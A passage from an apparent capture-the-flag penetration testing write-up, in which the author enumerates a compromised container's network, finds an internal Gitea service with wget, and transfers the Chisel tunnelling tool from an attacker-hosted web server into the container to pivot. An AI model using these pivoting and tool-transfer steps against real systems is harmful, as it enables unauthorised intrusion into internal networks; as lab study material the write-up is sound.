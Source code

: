 ```

/app # ifconfig eth0
eth0      Link encap:Ethernet  HWaddr 02:42:AC:11:00:08  
          inet addr:172.17.0.8  Bcast:172.17.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:337 errors:0 dropped:0 overruns:0 frame:0
          TX packets:302 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:36134 (35.2 KiB)  TX bytes:81314 (79.4 KiB)

```

The default gateway for this box is 172.17.0.1, which is likely the host running the container:

```

/app # ip route
default via 172.17.0.1 dev eth0 
172.17.0.0/16 dev eth0 scope link  src 172.17.0.8

```

#### Identify Gitea

Remembering that there’s a service on port 3000 that I couldn’t access from my host, I’ll try to access that here. `curl` isn’t on the box, but `wget` is, and `-O-` will output to stdout:

```

/app # wget 172.17.0.1:3000 -O-
Connecting to 172.17.0.1:3000 (172.17.0.1:3000)
writing to stdout
<!DOCTYPE html>
<html lang="en-US" class="theme-">
<head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <title> Gitea: Git with a cup of tea</title>
...[snip]...

```

It’s an instance of [Gitea](https://gitea.io/en-us/), an open source Git management platform.

### Access Gitea

#### Tunnel

I’ll use [Chisel](https://github.com/jpillora/chisel) to create a tunnel from my host through the container to access Gitea. First, I’ll download the latest linux amd64 binary from the [release page](https://github.com/jpillora/chisel/releases), and host it on my box using a Python webserver (`python3 -m http.server 8000`). I’ll fetch that file to the container:

```

/tmp # wget http://10.10.14.6:8000/chisel_1.7.7_linux_amd64
Connecting to 10.10.14.6:8000 (10.10.14.6:8000)
saving to 'chisel_1.7.7_linux_amd64'
chisel_1.7.7_linux_a 100% |********************************| 7888k  0:00:00 ETA
'chisel_1.7.7_linux_amd64' saved

```
